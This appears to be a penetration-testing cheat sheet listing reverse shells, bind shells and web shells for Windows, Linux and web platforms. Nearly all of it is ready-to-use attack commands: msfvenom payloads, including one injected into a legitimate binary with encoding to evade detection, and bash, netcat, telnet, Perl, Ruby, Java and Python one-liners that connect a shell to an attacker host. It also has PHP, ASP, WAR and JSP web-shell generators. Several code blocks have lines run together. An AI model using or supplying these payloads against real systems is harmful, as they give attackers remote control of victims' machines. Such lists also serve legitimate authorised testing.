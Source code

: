 # **Shells**

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet: [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### **Windows <a href="#windows" id="windows"></a>**

**Meterpreter**

**Standard meterpreter**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handlerset payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```
msfvenom -p windows/meterpreter/reverse_https LHOST=ip LPORT=443 -f exe -o met_https_reverse.exe
```

**Non-staged payload**

```
msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handlerset payload windows/shell_reverse_tcp
```

**Staged payload**i

```
This must be caught with metasploit. It does not work with netcat.
```

```
use exploit/multi/handlerset payload windows/shell/reverse_tcp
```

### **Inject payload into binary <a href="#inject-payload-into-binary" id="inject-payload-into-binary"></a>**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## **Linux <a href="#linux" id="linux"></a>**

## **Binary <a href="#binary" id="binary"></a>**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f elf > shell.elf
```

## **Bash <a href="#bash" id="bash"></a>**

```
0<&196;exec 196<>/dev/tcp/ip/80; sh <&196 >&196 2>&196
```

```
bash -i >& /dev/tcp/ip/8080 0>&1
```

## **Php <a href="#php" id="php"></a>**

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## **Netcat <a href="#netcat" id="netcat"></a>**

**Bind shell**

```
#Linuxnc -vlp 5555 -e /bin/bashnc ip 5555# Windowsnc.exe -nlvp 4444 -e cmd.exe
```

## **Reverse shell** <a href="#reverse-shell" id="reverse-shell"></a>

```
# **Linuxnc -lvp 5555nc ip 5555 -e /bin/bash# Windowsnc -lvp 443nc.exe ip 443 -e cmd.exe**
```

## **With -e flag** <a href="#with-e-flag" id="with-e-flag"></a>

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

**Without -e flag**

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## **Ncat <a href="#ncat" id="ncat"></a>**

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --sslncat -v ip 5555 --ssl
```

## **Telnet <a href="#telnet" id="telnet"></a>**

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## **Perl <a href="#perl" id="perl"></a>**

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## **Ruby <a href="#ruby" id="ruby"></a>**

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### **Java <a href="#java" id="java"></a>**

```
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

## **Python <a href="#python" id="python"></a>**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## **Web-shells  <a href="#web-shells---platform-independent" id="web-shells---platform-independent"></a>**

## **PHP <a href="#php-1" id="php-1"></a>**

This php-shell is OS-independent. You can use it on both Linux and Windows.

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.php
```

## **ASP <a href="#asp" id="asp"></a>**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f asp > shell.asp
```

## **WAR <a href="#war" id="war"></a>**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f war > shell.war
```

## **JSP <a href="#jsp" id="jsp"></a>**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.jsp
```

 
